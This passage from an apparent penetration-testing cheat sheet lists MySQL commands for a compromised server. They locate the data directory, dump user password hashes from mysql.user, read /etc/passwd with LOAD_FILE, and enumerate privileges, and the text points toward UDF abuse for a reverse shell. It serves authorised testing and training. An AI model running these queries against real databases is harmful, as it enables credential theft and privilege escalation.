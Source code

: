 `MySQL [(none)]> SELECT @@datadir;`

`MySQL [(none)]> SHOW VARIABLES WHERE Variable_Name LIKE "%dir";`

#### 1.3.3 - Hashdump Credentials

* **Method 1:**

`MySQL [(none)]> SELECT user,authentication_string from mysql.user;`

`MySQL [(none)]> SELECT user,password from mysql.user;`

* **Method 2:**

`MySQL [(none)]> use mysql;`

`MySQL [(mysql)]> SELECT user,authentication_string from user;`

`MySQL [(mysql)]> SELECT user,password from user;`

### 1.4 - Enumerate Users

#### 1.4.1 - Discover users connected to the compromised MySQL database server

`MySQL [(none)]> SELECT USER();`

`MySQL [(none)]> SELECT LOAD_FILE('/etc/passwd');`

### 1.5 - Privilege Escalation

TODO: Finish the enumeration part for escalating to root/admin privileges

#### 1.5.1 - Discover what privileges does the user have access

`MySQL [(none)]> SHOW PRIVILEGES;`

`MySQL [(none)]> SHOW PRIVILEGES \G;`

These two are the most critical ways other than the basic query SQL commands just to get a reverse shell and escalate privileges for abusing the UDF MySQL feature. Look at the [[Service Exploits]] section.

```
*************************** <number>. row ***************************
Privilege: Execute
  Context: Functions,Procedures
  Comment: To execute stored routines
*************************** <number>. row ***************************
Privilege: File
  Context: File access on server
  Comment: To read and write files on the server

MySQL [(none)]> SELECT user,host FROM mysql.user;

MySQL [(none)]> SHOW GRANTS FOR <username>@<IP>;
```
